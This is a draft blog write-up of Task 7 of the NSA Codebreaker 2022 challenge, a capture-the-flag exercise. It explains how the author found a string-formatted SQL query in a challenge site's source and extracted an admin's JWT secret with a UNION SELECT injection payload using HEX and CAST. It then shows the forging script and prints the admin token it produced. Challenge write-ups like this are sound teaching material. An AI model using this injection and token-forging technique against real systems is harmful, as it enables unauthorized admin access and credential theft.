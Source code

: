 ```yaml
---
title: "NSACodebreaker2022 - Task7"
topic: "general"
tags: ["web-hacking", "sql-injection"]
prev: "http://localhost:1313/posts/nsacodebreaker2022-task6"
next: "http://localhost:1313/posts/nsacodebreaker2022-task8"
date: 2022-12-20T11:37:37-05:06
draft: true
---
```


# Table of Contents
1. [Task A1](http://localhost:1313/posts/nsacodebreaker2022-taska1)
2. [Task A2](http://localhost:1313/posts/nsacodebreaker2022-taska2)
3. [Task B1](http://localhost:1313/posts/nsacodebreaker2022-taskb1/)
4. [Task B2](http://localhost:1313/posts/nsacodebreaker2022-taskb2/)
5. [Task 5](http://localhost:1313/posts/nsacodebreaker2022-task5/)
6. [Task 6](http://localhost:1313/posts/nsacodebreaker2022-task6/)
7. [Task 7](#task-7)
	- [Solution](#solution)
8. [Task 8](http://localhost:1313/posts/nsacodebreaker2022-task8/)
9. [Task 9](http://localhost:1313/posts/nsacodebreaker2022-task9/)

## Task 7

- - -
###### With access to the site, you can access most of the functionality. But there's still that admin area that's locked off.

###### Generate a new token value which will allow you to access the ransomware site as an administrator.
- - -

### Solution

Having access to the web server can only take us so far without having unlimited access to all the site has to offer. However, the credentials we uncovered only provide us user access. We will need to somehow generate an admin JWT token, which unfortunately isn't as easy as changing a plain text role value from `user` to `admin`. 

Luckily, we have the source code - so we can see what differentiates an admin from a user. 

The `server.py` script holds the web framework logic that checks if a user is admin before allowing access to the requested area of the web server. The function used to check is `util.check_admin()`. The logic looks like the following:

```python
def is_admin():
	""" Is the logged-in user an admin? """	
	uid = get_uid()
	with userdb() as con:
		query = "SELECT isAdmin FROM Accounts WHERE uid = ?"
		row = con.execute(query, (uid,)).fetchone()
		if row is None:
			return False
		return row[0] == 1 

def check_admin(f):
	""" Call f only if user is an admin """
	if not is_admin():
		return render_template("admininvalid.html")
	return f()
```

It looks like there is a query to a database that holds the information as to whether the `uid` is associated to an `admin` account. We also know that in order to generate a valid JWT token for an admin account - we will need this account's `secret` value as seen by the `generate_token` function:

```python
row = con.execute("SELECT uid, secret from Accounts WHERE userName = ?", (userName,)).fetchone()
```

This means if we want to get any of this information we will need to somehow compromise the database which holds the information, and what better way to do that than with sql injection?

Looking around the source code, most of the sql queries are safe and sound but one. Within the `userinfo()` function in `server.py` there is a query to look up information on various users.

```python
infoquery= "SELECT u.memberSince, u.clientsHelped, u.hackersHelped, u.programsContributed FROM Accounts a INNER JOIN UserInfo u ON a.uid = u.uid WHERE a.userName='%s'" %query
```

And instead of using a parameterized query, denoted by the `?` character; instead this query passing in our user input via a `string` without any input sanitization! This is very dangerous and indeed vulnerable to sql injection, but very lucky for us. 

Playing with the website, I was able to come across the name of an active admin member: `ClassyMenorah`. Since we know the username of this admin, we can craft a special payload to extract the `uid` and `secret`. Unfortunately, however, this `userinfo()` function casts all of our returned strings to integers! This won't work if we want the secret in an ascii readable format!

Luckily, sql provides many functions such as `HEX`, `substr`, `CAST`, and `AS` keywords that can help us out in the process of extracting this information. Piecing together several injection commands like the following:

```
' UNION SELECT uid,LENGTH(secret),CAST(HEX(substr(secret, 20, 22)) AS FLOAT), CAST(HEX(substr(secret, 22, 22)) AS int) FROM Accounts WHERE userName='ClassyMenorah'; -- 
```

Can gives us 90% of the secret key in hex format that we can convert to ascii on our own. However, there are a few characters that gives us way more information that we need. 

In order for me to better test what was going on - I wrote my own script to test what was happening in the backend. Playing with the values I was receiving and their hex form quite a bit. 

* 9223372036854775807 casted as an integer 
* 59346176483058553716736 cased as a float.

Some of you may recognize what is happening here, but it took me longer than I'd like to admit to figure out what was happening. `9223372036854775807` is the maximum signed integer value that can be stored. However - `59346176483058553716736` was not the max float value. Looking closer - I was able to see overlap from previous hex values I was looking at, which completed the process of extracting the admin secret. 

```
6743345A637A6533364D6F304739685938394D59346176483058553231336D46
                           or
             gC4Zcze36Mo0G9hY89MY4avH0XU213mF
```

Adjusting my JWT token generator script from task 6 to change the `uid` and `secret`

```python
import codecs
hex_str = "6743345A637A6533364D6F304739685938394D59346176483058553231336D46"
hex_str = codecs.decode(hex_str, "hex").decode('utf-8')

token = generate_token("45619", "gC4Zcze36Mo0G9hY89MY4avH0XU213mF")
print(f"==== GENERATED TOKEN ====\n\n {token} \n\n")
validate_token(token)
```

This outputs a valid JWT admin token:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NjExNjg4MzYsImV4cCI6MTY2Mzc2MDgzNiwidWlkIjoiNDU2MTkiLCJzZWMiOiJnQzRaY3plMzZNbzBHOWhZODlNWTRhdkgwWFUyMTNtRiJ9.i7JBnO0WIAbX4uwjKfkQb0urmh5xl5CoIqZfexfo8bA


{'iat': 1661168836, 'exp': 1663760836, 'uid': '45619', 'sec': 'gC4Zcze36Mo0G9hY89MY4avH0XU213mF'}
```

The correct answer:

The cookie you generate at the time, which for my case was:

`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NjExNjg4MzYsImV4cCI6MTY2Mzc2MDgzNiwidWlkIjoiNDU2MTkiLCJzZWMiOiJnQzRaY3plMzZNbzBHOWhZODlNWTRhdkgwWFUyMTNtRiJ9.i7JBnO0WIAbX4uwjKfkQb0urmh5xl5CoIqZfexfo8bA`

![Task 7 Badge](/posts/badge7.png "Task 7 Badge")

- - -